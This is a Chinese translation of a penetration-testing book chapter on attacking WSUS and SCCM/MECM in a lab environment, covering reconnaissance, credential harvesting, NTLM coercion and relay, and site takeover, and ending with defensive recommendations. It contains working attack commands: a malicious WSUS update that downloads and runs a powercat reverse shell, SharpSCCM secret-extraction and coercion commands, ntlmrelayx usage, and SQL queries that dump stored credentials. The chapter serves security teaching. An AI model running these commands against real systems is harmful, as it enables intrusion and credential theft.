

# 第十章：接管 WSUS 和 SCCM

在本书的最后一章中，我们将重点攻击基础设施管理解决方案。这些系统是对攻击者非常有价值和有吸引力的目标，因为这些系统通常由高度特权账户操作，几乎可以访问目标环境的所有部分。**Windows 服务器更新服务**（**WSUS**）是一种以集中方式向客户端计算机部署更新的服务。`Microsoft Endpoint Configuration Management`（**MECM**）——前身为`System Center Configuration Manager`（**SCCM**）——是一种本地端点管理解决方案。该产品帮助 IT 专业人员进行系统清单管理、补丁管理、软件部署等。

我们将从讨论已知的针对 WSUS 的攻击开始，然后展示如何利用它进行横向移动。然而，本章的主要重点是 SCCM。在介绍和必要的理论之后，我们将进入部署阶段。当我们的实验室准备好后，就可以再次走过攻击链：侦察、特权提升和横向移动。像往常一样，我们的主要关注点将是特定服务的技术。我们将以防御性建议结束本章。

本章将涵盖以下主要内容：

+   滥用 WSUS

+   MECM/SCCM 的介绍和部署

+   侦察

+   特权提升

+   横向移动

+   防御性建议

# 技术要求

本章您需要访问以下内容：

+   VMware Workstation 或 Oracle VirtualBox，至少 16 GB 的 RAM，8 个 CPU 核心，至少 55 GB 的总空间（如果进行快照，则需要更多空间）

+   强烈推荐使用基于 Linux 的操作系统

+   我们将从 GOADv2 项目中使用 DC01、SRV01

+   我们将从 DetectionLab 使用 DC、WEF、Win10。

# 滥用 WSUS

在大多数企业环境中，更新是由管理员集中分发和安装的。对于基于 Windows 的基础设施，推荐的方法是在网络中的一台服务器上安装 WSUS 服务器角色，并强制客户端和服务器使用它作为更新的来源。WSUS 有助于消除缺少补丁所带来的风险，但也可能成为攻击的目标。原因很简单：攻击者可以利用它分发恶意代码，这些代码将被自动下载并安装，看起来合法且值得信赖。客户端将通过查询`HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate`中的注册表键值获取关于 WSUS 服务器的所有必要信息。从本质上讲，WSUS 是一个**简单对象访问协议**（**SOAP**）XML Web 服务。所有更新必须由微软签名，WSUS 会检查每个更新的数字签名和哈希值。然而，**传输层安全性**（**TLS**）默认情况下没有启用，这为攻击者提供了第一个可乘之机。

未加密的通信可能导致**中间人`(`MitM**)攻击，具体取决于攻击者在网络中的位置。首先，我们需要检查`WUServer`注册表值是否包含 HTTP 协议，这意味着 TLS 未启用，攻击是可能的。然后，我们可以尝试进行**地址解析协议`(`ARP**)欺骗，并传递签名二进制文件，例如`PsExec`。攻击分为两部分——MitM 和分发。`GoSecure`开发了一种恶意更新分发工具，名为`PyWSUS`[1]。为了执行 MitM 攻击，研究中推荐了`bettercap`[2][3]。

另一个我们不应忽视的攻击面是客户端本身的漏洞。例如，CVE-2020-1013 允许我们修改本地用户的代理设置，从而可以在本地运行`PyWSUS`，以`SYSTEM`权限在机器上执行代码。执行此攻击的工具——名为`WSuspicious`——已发布在*GoSecure*的 GitHub 仓库[4]中。

此外，如果我们针对任何基于 Windows 的环境，**新技术 LAN 管理器`(`NTLM**)中继攻击总是在某个地方潜伏。如前所述，我们可以将客户端的 WSUS 请求重定向到恶意的 WSUS 服务器，因此没有任何东西阻止我们请求 NTLM 身份验证，客户端将自动执行此操作。

注意

该技术由*GoSecure*在这里描述：[`www.gosecure.net/blog/2021/11/22/gosecure-investigates-abusing-windows-server-update-services-wsus-to-enable-ntlm-relaying-attacks/`](https://www.gosecure.net/blog/2021/11/22/gosecure-investigates-abusing-windows-server-update-services-wsus-to-enable-ntlm-relaying-attacks/)。

到目前为止描述的所有攻击的主要结论是，确保 WSUS 更新仅通过安全的 HTTPS 传输进行。

我们的攻击范围内的最后一个攻击是如果攻击者已入侵 WSUS 服务器本身，则向客户端分发恶意更新。为此，我们将在`castelrock.sevenkingdoms.local`上部署 WSUS，并在`kingslanding.sevenkingdoms.local`上安装恶意更新，获得反向 Shell。我们需要根据 Microsoft 提供的指南[5]在实验室中部署 WSUS。

角色安装很简单。接下来的步骤是服务配置。我们将取消选中所有操作系统版本和软件的更新目标列表，因为我们不希望 WSUS 从互联网上拉取更新。最后，我们需要配置组策略，使**域控制器`(`DC**)从 WSUS 拉取更新[6]。值得一提的是，在组策略参数中，我们必须使用**完全限定域名`(`FQDN**)和端口号来指定 WSUS 服务器。

为了攻陷 DC，我们可以利用`SharpWSUS`[7]或`wsuspendu`[8]工具。计划是将反向 Shell 脚本托管在我们的 Web 服务器上，并使用`PsExec`[9]作为有效载荷下载并执行它（因为它由 Microsoft 签名）。

```
.\wsuspendu.ps1 -Inject -PayloadFile .\ps64.exe -PayloadArgs 'powershell -c "IEX(New-Object System.Net.WebClient).DownloadString(''http://192.168.56.150:8000/powercat.ps1'');powercat -c 192.168.56.150 -p 443 -e cmd"'
Get-WsusUpdate -Approval Unapproved |Approve-WsusUpdate -Action Install -TargetGroupName "DC"
```

然后，更新被安装到 DC 上，我们获得了作为`SYSTEM`的反向 Shell：


图 10.1 – 作为 SYSTEM 在 DC 上的反向 shell

在本节中，我们讨论了 WSUS 最常见的攻陷路径，如中间人攻击（MitM）、缺失的补丁和 NTLM 中继攻击。我们还演示了如何利用被攻陷的 WSUS 进行横向移动，实际上使攻击者有可能完全接管基础设施。

在接下来的部分，我们将介绍微软开发的系统管理软件。它现在被称为 MECM，但我们仍然经常使用旧名称 SCCM。

# MECM/SCCM 简介

SCCM 是一款复杂的软件，具有自己的层次结构和术语。我们将从必要的理论开始。本质上，SCCM 采用客户端-服务器架构，其中一个代理程序安装在终端上，然后回调到服务器。

注意

层次结构设计由微软在此处描述：[`learn.microsoft.com/en-us/mem/configmgr/core/plan-design/hierarchy/design-a-hierarchy-of-sites`](https://learn.microsoft.com/en-us/mem/configmgr/core/plan-design/hierarchy/design-a-hierarchy-of-sites)。

在我们的实验室中，我们将部署一个单独的独立**主站点**。为了在更大的环境中实现可扩展性，可以添加**次级站点**。另外，如果有多个主站点，就需要一个**中央管理站点**，该站点仅用于管理站点，而不是客户端。每个站点都有一个三字母的**站点代码**。客户端根据**边界组**进行分组，边界组是基于，没错，边界的。网络范围或`Active Directory`（**AD**）组成员资格是边界的典型示例。并且，可以执行发现任务，并根据某些标准自动将客户端分配到组中。**管理点**（**MP**）是为客户端提供策略和配置，以便与站点服务器进行通信的角色。默认情况下，它安装在主站点服务器上。接下来，客户端需要知道**分发点**（**DP**），才能获取更新、软件等。所有关于客户端的信息都存储在**站点数据库服务器**上，该服务器是微软的 SQL Server。主服务器和数据库之间的通信由**SMS 提供程序**组件负责。在我们的实验室中，我们将在主站点服务器上安装 SMS 提供程序和数据库服务器。接下来是一个很好的层次结构可视化图：[10]如下：


图 10.2 – 典型的 SCCM 层次结构

在边界组中的目标机器上，有多种安装客户端的方式。默认方式是**客户端推送安装**。这使用客户端推送安装账户，它们是具有计算机管理权限的服务账户。在安装过程中，使用该账户进行身份验证并安装客户端。如果配置了几个账户，服务器会依次尝试对每个账户进行身份验证。另一个从攻击者的角度来看很有前景的账户是**网络访问账户**（**NAA**）。当非域加入客户端想要从 DP 访问内容时，会使用该账户。

我们的下一个任务是将 SCCM 部署到`DetectionLab`中。我将在一台 WEF 机器上安装它。

## 部署

部署过程相当漫长。我建议为在 WEF 虚拟机上添加 CPU 和内存预留 2 到 3 小时的时间。

注意

为了部署 SCCM，我使用了两个资源。第一个由*Benoit Lecours*制作，来自 System Center Dudes ([`www.systemcenterdudes.com/complete-sccm-installation-guide-and-configuration/`](https://www.systemcenterdudes.com/complete-sccm-installation-guide-and-configuration/))，第二个是前一个版本的改编版，由*HTTP418*提供 ([`http418infosec.com/grow-your-own-sccm-lab`](https://http418infosec.com/grow-your-own-sccm-lab))。

我不会在此提供逐步指南；然而，我会简要地讲述我的过程：

1.  在 WEF 机器上，启用`Windows Installer`和`Windows Module** **Installer`服务。

1.  使用`extadsch.exe`执行架构扩展。

1.  按照 HTTP418 指南在 AD 中创建容器和账户。

1.  使用**组策略**推送防火墙规则，并将客户端推送安装账户添加到目标机器的本地**管理员**组中。

1.  安装所需的 Windows 功能。

1.  安装 Windows **评估和部署` `工具包**（**ADK**）。

1.  以评估模式安装 Microsoft SQL Server。

1.  设置所需的 SPN。

1.  我跳过了数据库创建，只在 SQL Server 上启用了 IP 地址监听。

1.  安装 SCCM 的评估版。

安装完成后，需要进行配置。我按照指南操作，最终能够在一台 WIN10 计算机上运行脚本，如下图所示：


图 10.3 – 从配置控制台在 WIN10 客户端上运行脚本

现在部署完成，我们应该有一个最小的工作环境，用于攻击模拟。

注意

*0xcsandker*在他的博客中创建了一个关于 SCCM 攻击面的大量回顾，并附有精心结构化的架构图，可以在此链接查看：[`www.securesystems.de/blog/active-directory-spotlight-attacking-the-microsoft-configuration-manager/`](https://www.securesystems.de/blog/active-directory-spotlight-attacking-the-microsoft-configuration-manager/)。

和往常一样，我们的第一步将是侦察。我们将重点探索 SCCM 基础设施和主机枚举。

# 侦察

在这一节中，我们将讨论侦察和枚举。我们将简要介绍如何仅通过网络访问识别 SCCM，然后深入探讨*假设* *突破*场景。

为了从未加入域的机器中识别 SCCM 基础设施，攻击者可能会执行一个简单的端口扫描，寻找 TCP 端口`8530`和`8531`（软件更新点）、`10123`（管理点）、`4022`和`1433`（SQL 服务器）。此外，UDP 端口`4011`可能是提供**预启动执行环境**（**PXE**）启动介质的指示器。SCCM 可以部署有或没有 PXE 提供的**操作系统部署**（**OSD**）。我们的实验室中没有部署 PXE，但有一些有前景的向量值得考虑。

要检查环境中是否支持 PXE，可以使用一个叫做`PXEThief`[11]的工具。该工具会发送一个 DHCP 发现请求，搜索 PXE 服务器并获取 PXE 启动文件。如果 PXE 介质被加密，攻击者需要猜测或破解密码来进行解密。解密后，工具会解析文件中**任务序列**或存储在**集合变量**中的 NAA 账户和凭据。在 OSD 中，有一个任务序列功能。简而言之，这个功能是一个定义好的步骤列表，用于正确部署机器。其中一些步骤，如*任务序列域加入账户*，会使用域用户凭据。此外，任务序列步骤中的集合变量可能会使用硬编码凭据。该工具将为你提取这些凭据。或者，攻击者可以等到操作系统安装开始，然后检查`C:\Windows\panther\unattend\unattend.xml`文件，获取一组域凭据。

一种获取 NAA 凭据的方法是由*Raiona_ZA*在 DEFCON 演讲中展示的[12]。如果*F8-调试*未被禁用，攻击者可以通过反复按*F8*调用`SYSTEM` shell，然后运行一个 Visual Basic 脚本来转储环境变量，并在其中搜索`_SMSTSReserved1`（用户名）和`_SMSTSReserved2`（密码）值。这些就是你的 NAA 凭据。

现在，让我们从已被攻破的域用户的背景下进行一些实践性发现和枚举。在本章中，我将一直使用*Mayyhem*制作的`SharpSCCM`[13]工具。我们可以通过两种不同的方式找到 SCCM MP 和站点代码——PowerShell 和 WMI（`SharpSCCM`使用 WMI）：

```
(ADSISearcher).FindAll() | % {$_.Properties}
Get-WmiObject -Class SMS_Authority -Namespace root\CCM
```

`SharpSCCM`命令执行结果如下：


图 10.4 – SharpSCCM 显示 MP 和站点名称

另外，MP 可以从存储在机器上`C:\Windows\CCM\Logs`的日志中提取。`SharpSCCM`有以下命令：

```
SharpSCCM.exe local triage
```

可能攻击者在没有管理员权限的情况下能做的最后一件事就是检查之前执行过的脚本，前提是启用了 PowerShell 日志记录。这样可以通过 Windows 事件检索脚本内容。以下 PowerShell 命令会查阅 Windows PowerShell 日志中的事件，并寻找事件 ID `4104`（*PowerShell 脚本* *块日志记录*）：

```
Get-WinEvent -ProviderName Microsoft-Windows-PowerShell | Where-Object Id -eq 4104 | fl
```

例如，我们可以看到之前的侦察命令：


图 10.5 – PowerShell 日志记录的结果

从主站点执行的脚本存储在客户端的 `C:\Windows\CCM\ScriptStore` 文件夹中。但要读取此文件夹中脚本的内容，必须具备 `SYSTEM` 权限。

此外，我们还可以尝试从 DP 上的 `SCCMContentLib$` 共享中拉取文件。有一个名为 `CMLoot`[14] 的工具，可以列出共享中的文件并下载它们。

接下来，我们将进入下一节，讨论特权提升技术。

# 特权提升

本节将重点讨论通过凭证收集和认证强制进行的特权提升。对于凭证收集，我们将需要一个本地管理员账户。

## 客户端推送认证强制

和之前章节中一样，这里我们也将哈希捕获和转发阶段分开。我们的目标是通过控制的机器强制进行客户端推送安装账户认证，从而捕获 NTLM 响应。

注意

强制攻击由 *Mayyhem* 在他的博客文章中提出，地址为 [`posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a`](https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a)。

重要的一点是，这种攻击不需要管理员权限；被捕获的客户端推送安装账户的 NTLM 响应将授予对所有使用过该账户的其他机器的管理员访问权限。主要的前提条件是边界组的自动客户端分配、站点范围内的自动推送安装以及允许回退到 NTLM 连接。此外，我们需要确保通信安全的**仅限 HTTPS**选项未启用。在配置过程中，我们已强制启用了所有这些选项。

攻击者向 MP 发送新的设备注册请求，随后发送一个心跳 **数据发现记录**（**DDR**），告知客户端尚未在带有监听器的机器上安装。站点服务器尝试使用客户端推送安装账户并最终使用其机器账户来安装客户端。此攻击也是 `SharpSCCM` 的一部分：

```
SharpSCCM.exe invoke client-push -t 192.168.56.100
```

在客户端，攻击呈现如下截图：


图 10.6 – 成功强制攻击的逐步过程

在被控制的机器上，我们捕获了客户端推送安装账户和 MP 计算机账户的 NTLM 响应：


图 10.7 – 捕获的 NTLM 响应

管理员将会检测到这样的攻击，因为我们控制的机器的 IP 地址将出现在控制台中，以下截图展示了这一点：


图 10.8 – 控制台中显示捕获的机器 IP 地址

如果我们在 MP 上具有管理员权限，我们可以使用`--as-admin`选项来为我们执行清理操作。

## 凭证收集

我们将专注于三种凭证类型 – 设备集合变量、任务序列变量和 NAA 凭证。

什么是设备集合？简单来说，它就是一组设备。有一些预定义的组，但我们也可以创建自己的组。在集合的情况下，我们可以为特定目的添加变量。然后，这些变量可以被任务序列使用。攻击者也可以提取它们。首先，让我们添加一个集合变量。这些变量在 **资产与合规性** | **设备集合** | **选择您的集合** | **属性** 中。我的示例截图如下所示：



图 10.9 – 设备集合变量

我们之前讨论过任务序列和 NAA。`SharpSCCM`可以本地或远程提取这些信息。通过 WMI，攻击者从 `root\ccm\policy\Machine\ActualConfig` WMI 命名空间中的不同类（`CCM_CollectionVariable`、`CCM_TaskSequence` 和 **CCM_NetworkAccessAccount**）查询 Blob。另一种方法是从 **公共信息模型**（**CIM**）存储中提取 Blob。为了获取明文凭证，需要本地管理员权限，因为 NAA 凭证是通过 DPAPI 主密钥进行保护的。最后，远程选项将通过 HTTP 请求从 MP 获取机器策略并解密机密：

```
SharpSCCM.exe local secrets -m wmi
SharpSCCM.exe local secrets -m disk
SharpSCCM.exe get secrets
```

上一个命令执行的结果如下截图所示：


图 10.10 – 凭证收集

注意

另一种获取 NAA 的方法，取决于 **机器账户配额**（**MAQ**）值，在 *http418* 的博客文章中展示过，链接如下 – [`http418infosec.com/offensive-sccm-summary#Credential_Access_%E2%80%93_NAA`](https://http418infosec.com/offensive-sccm-summary#Credential_Access_%E2%80%93_NAA)。

在接下来的部分，我们将专注于仅基于 SCCM 基础设施执行横向渗透的方法。

# 横向渗透

SCCM 设计上是一个非常适合横向渗透的软件。代理被安装在整个环境中；高权限账户用于执行管理任务。此外，它是融合合法流量和活动的好机会。我们将从将强制认证扩展到中继攻击开始讨论横向渗透。

## 客户端推送认证中继攻击

该攻击与我们在*权限提升*部分进行的攻击非常相似。唯一的区别是这次我们想将捕获的 NTLM 响应中继到另一台机器上。（温馨提示：中继要求禁用签名）。在客户端，这个攻击过程完全相同。在我们的监听机器上，我们启动`ntlmrelayx`：

```
impacket-ntlmrelayx -t 192.168.56.106 -smb2support
```

在强制客户端推送安装后，我们将其中继到 Exchange 服务器并转储 SAM 哈希值，如下图所示：


图 10.11 – 成功的 NTLM 中继攻击

如果未定义客户端推送安装账户，则默认情况下，SCCM 服务器的计算机账户将用于推送客户端。显然，这个计算机账户必须是每台计算机的本地 `Administrators` 组的成员。在这种情况下，攻击过程将与之前相同，唯一的区别是将用于中继的账户。

## 站点接管

有两种站点接管技术。遗憾的是，由于 SQL Server 和 SMS 提供程序角色已安装在主站点服务器上，我们无法在实验室中复制这些技术。

第一种技术基于主站点服务器的计算机账户应在 SQL Server 和 MP 服务器的本地 `Administrators` 组中的事实。然后，攻击者强制从主站点服务器进行 NTLM 认证，并将其中继到 SQL Server。接下来，可以使用 SQL 查询授予 **完全管理员** SCCM 角色；`sccmhunter`[15] 工具也可以为你完成这项工作。

注意

该技术在 *Mayyhem* 的博文 *SCCM 站点通过自动客户端推送安装接管* 中有很好的描述：[`posts.specterops.io/sccm-site-takeover-via-automatic-client-push-installation-f567ec80d5b1`](https://posts.specterops.io/sccm-site-takeover-via-automatic-client-push-installation-f567ec80d5b1)。

第二种技术利用 `AdminService` API 来接管 SCCM 站点。该 API 由 SMS 提供程序托管。每个提供程序都有一个本地组，名为 `SMS Admins`。默认情况下，主站点服务器计算机账户是该组的成员。现在，接管攻击将与之前的攻击相同。通过任何你喜欢的方式强制认证，捕获并将主站点计算机账户的 NTLM 响应中继到托管在 SMS 提供程序上的 `AdminService` API，并将一个用户添加为 **完全管理员**。

注意

*Garrett Foster* 的原始研究可以在这里找到：[`posts.specterops.io/site-takeover-via-sccms-adminservice-api-d932e22b2bf`](https://posts.specterops.io/site-takeover-via-sccms-adminservice-api-d932e22b2bf)。

这两种技术在默认安装后均可工作，仅需要网络连接和标准用户凭据。

## 滥用 Microsoft SQL Server

在站点接管后，或者如果攻击者获得了主站点使用的 Microsoft SQL Server 的访问权限，将会打开新的途径。首先，可以解密存储在`SC_UserAccount`表中的 SCCM 用户凭据。在我们的案例中，我将使用 SQL Server Management Studio 运行查询。查询如下所示：

```
USE CM_WIN
SELECT UserName,Password FROM SC_UserAccount
```

然后，我将使用`SCCMDecryptPoc`[16]工具，由*XPN*开发。解密结果如下所示：


图 10.12 – sccm_cli_push 帐户的解密密码

另一个信息收集活动是转储与任务序列相关的表格，并查找凭据。输出将被混淆，但`SharpSCCM`库中由*Mayyhem*开发的`DeObfuscateSecretString`工具将能够提供帮助。

最后，有一个名为`sp_CP_GenerateCCRByName`的存储过程，可以用来强制客户端推送安装，并使 MP 机器帐户对我们选择的机器上的`ADMIN$`共享进行身份验证。代码如下：

```
USE CM_WIN
GO
DECLARE @return_value int
EXEC    @return_value = [dbo].[sp_CP_GenerateCCRByName]
        @MachineNameList = N'192.168.56.106',
        @SiteCode = N'WIN',
        @bForced = false,
        @bForceReinstall = false
SELECT 'Return Value' = @return_value
GO
```

结果是强制身份验证尝试，如下所示：


图 10.13 – 存储过程执行导致的强制身份验证

实际上，这些后期利用行为并非必须执行，因为所有这些行为在早期阶段都已展示过。目的是强调主站点的 SQL Server 也需要进行良好的加固和维护。

## 部署应用程序

这是横向移动的最后一个场景。它也可以作为持久性技术来处理。一个常见场景是将恶意应用程序部署到整个环境或特定目标上。然而，我们将尝试另一个场景。从受控的 UNC 路径触发应用程序安装，因此我们可以捕获域管理员的 NTLM 响应。

注意

*Mayyhem*的原创研究可以在这里找到：[`posts.specterops.io/relaying-ntlm-authentication-from-sccm-clients-7dccb8f92867`](https://posts.specterops.io/relaying-ntlm-authentication-from-sccm-clients-7dccb8f92867)。

我将授予`vinegrep`用户**完全管理员**权限；然而，**应用管理员**权限应该足够了。可以通过运行以下命令验证新权限：

```
SharpSCCM.exe get class-instances SMS_Admin -p CategoryNames -p CollectionNames -p LogonName -p RoleNames
```

命令执行的结果如下：


图 10.14 – 新权限已应用

我们的计划是找到一个已安装客户端且主用户为`Administrator`的活动设备。我们将提取资源 ID 以进行下一步。以下命令将提供所需的信息：

```
SharpSCCM.exe get primary-users -u Administrator
SharpSCCM.exe get devices -w "Active=1 and Client=1"
```

命令执行结果如下截图所示：


图 10.15 – WIN10 机器是我们的目标设备

攻击包括以下步骤：

1.  创建一个新的设备集合。

1.  将目标机器添加到此集合中。

1.  创建一个带有 UNC 路径指向攻击者机器的应用程序。

1.  让该集合中的目标设备安装新应用程序。

以下命令将自动执行上述步骤：

```
SharpSCCM.exe exec -rid 16777219 -r 192.168.56.100
```

攻击执行过程如下：


图 10.16 – 成功的攻击执行

经过一段时间，我们捕获了 NTLM 响应，如下图所示：


图 10.17 – 成功的中继到 Exchange 服务器

此攻击也可以针对多个用户进行。如果需要，计算机帐户还可以强制使用`--run-as-system`标志进行身份验证。最后一节将解释防御性建议。

# 防御性建议

防御性建议是`SharpSCCM`维基的一部分。在这里，我们将介绍最有效且易于实施的建议。我不会重复诸如安装更新、确保特权帐户使用强密码、审核活动、尽可能强制签名等内容。让我们来看一些防御性建议：

+   为防止强制攻击，应禁用 NTLM 回退

+   在域中禁用 NAAs，并改用增强 HTTP

+   使用**软件更新**功能安装客户端，而不是自动站点范围客户端推送安装

+   清理任务序列和设备集合变量中的敏感数据

+   对于 PXE，设置媒体的强密码并禁用**F8 调试**

+   检查服务帐户，以确保应用最小特权原则

+   不要运行 Web 客户端服务，以避免 HTTP 强制攻击

+   启用 SMS 提供商调用的多因素认证[17]

+   要求站点数据库启用**身份验证扩展保护**（**EPA**），以避免中继到 MS SQL Server

前三条建议将显著降低您被攻击的风险。此外，还有一份关于如何使用 SCCM 作为恶意活动狩猎工具的指南[18]。

# 总结

本章介绍了针对 IT 管理软件的技术和攻击。我们简要讨论了如何危害 WSUS 以及进行此类敌对活动的工具。此外，我们深入探讨了 SCCM 生态系统，并实际展示了配置错误如何导致环境的完全接管。稍后，在*防御性建议*部分，我强调了三条最重要的建议，用以改善 SCCM 的安全态势。

总体而言，本书旨在展示基于 Windows 的基础设施有多复杂，以及它包含了多少隐藏的部分。显然，新的漏洞和攻击向量将定期出现，但也有足够的安全机制使敌对者的攻击变得更加困难。

# 参考文献

1.  `PyWSUS`：[`github.com/GoSecure/pywsus`](https://github.com/GoSecure/pywsus)

1.  `bettercap`：[`github.com/bettercap/bettercap`](https://github.com/bettercap/bettercap)

1.  WSUS 攻击：[`www.gosecure.net/blog/2020/09/03/wsus-attacks-part-1-introducing-pywsus/`](https://www.gosecure.net/blog/2020/09/03/wsus-attacks-part-1-introducing-pywsus/)

1.  `WSuspicious`：[`github.com/GoSecure/WSuspicious`](https://github.com/GoSecure/WSuspicious)

1.  部署 WSUS：[`learn.microsoft.com/en-us/windows-server/administration/windows-server-update-services/deploy/deploy-windows-server-update-services`](https://learn.microsoft.com/en-us/windows-server/administration/windows-server-update-services/deploy/deploy-windows-server-update-services)

1.  使用 WSUS 部署更新的组策略设置：[`woshub.com/group-policy-settings-to-deploy-updates-using-wsus/`](https://woshub.com/group-policy-settings-to-deploy-updates-using-wsus/)

1.  `SharpWSUS`：[`github.com/nettitude/SharpWSUS`](https://github.com/nettitude/SharpWSUS)

1.  `WSUSpendu`：[`github.com/alex-dengx/WSUSpendu`](https://github.com/alex-dengx/WSUSpendu)

1.  `PSExec`：[`learn.microsoft.com/en-us/sysinternals/downloads/psexec`](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)

1.  *黑客食谱* 网站：[`www.thehacker.recipes/ad/movement/sccm-mecm`](https://www.thehacker.recipes/ad/movement/sccm-mecm)

1.  `PXEThief`：[`github.com/MWR-CyberSec/PXEThief`](https://github.com/MWR-CyberSec/PXEThief)

1.  Christopher Panayi，*从配置管理器中提取密码*：[`media.defcon.org/DEF%20CON%2030/DEF%20CON%2030%20presentations/Christopher%20Panayi%20-%20Pulling%20Passwords%20out%20of%20Configuration%20Manager%20Practical%20Attacks%20against%20Microsofts%20Endpoint%20Management%20Software.pdf`](https://media.defcon.org/DEF%20CON%2030/DEF%20CON%2030%20presentations/Christopher%20Panayi%20-%20Pulling%20Passwords%20out%20of%20Configuration%20Manager%20Practical%20Attacks%20against%20Microsofts%20Endpoint%20Management%20Software.pdf)

1.  `SharpSCCM`：[`github.com/Mayyhem/SharpSCCM/`](https://github.com/Mayyhem/SharpSCCM/)

1.  `CMLoot`：[`github.com/1njected/CMLoot`](https://github.com/1njected/CMLoot)

1.  `sccmhunter` 工具：[`github.com/garrettfoster13/sccmhunter#mssql`](https://github.com/garrettfoster13/sccmhunter#mssql)

1.  `sccmdecryptpoc` 工具：[`gist.github.com/xpn/5f497d2725a041922c427c3aaa3b37d1`](https://gist.github.com/xpn/5f497d2725a041922c427c3aaa3b37d1)

1.  启用 MFA 以供 SMS 提供程序调用：[`learn.microsoft.com/en-us/troubleshoot/mem/configmgr/setup-migrate-backup-recovery/enable-mfa-for-sms-provider-calls`](https://learn.microsoft.com/en-us/troubleshoot/mem/configmgr/setup-migrate-backup-recovery/enable-mfa-for-sms-provider-calls)

1.  SCCM for DFIR：[`informationonsecurity.blogspot.com/2015/11/microsofts-accidental-enterprise-dfir.xhtml`](https://informationonsecurity.blogspot.com/2015/11/microsofts-accidental-enterprise-dfir.xhtml)

# 进一步阅读

以下进一步学习的资源将帮助你更深入地了解本章涉及的攻击：

+   Gabriel Prud’homme，*SCCM Exploitation: The First Cred Is the Deepest* *II*：[`www.youtube.com/watch?v=W9PC9erm_pI`](https://www.youtube.com/watch?v=W9PC9erm_pI)

+   Chris Thompson，*SharpSCCM Demos at 2023 Black Hat USA* *Arsenal*：[`www.youtube.com/watch?v=uyI5rgR0D-s`](https://www.youtube.com/watch?v=uyI5rgR0D-s)

+   Christopher Panayi，*Identifying and retrieving credentials from SCCM/MECM Task* *Sequences*：[`www.mwrcybersec.com/research_items/identifying-and-retrieving-credentials-from-sccm-mecm-task-sequences`](https://www.mwrcybersec.com/research_items/identifying-and-retrieving-credentials-from-sccm-mecm-task-sequences)

+   HTTP418InfoSec，*Offensive SCCM* *Summary*：[`http418infosec.com/offensive-sccm-summary`](https://http418infosec.com/offensive-sccm-summary)
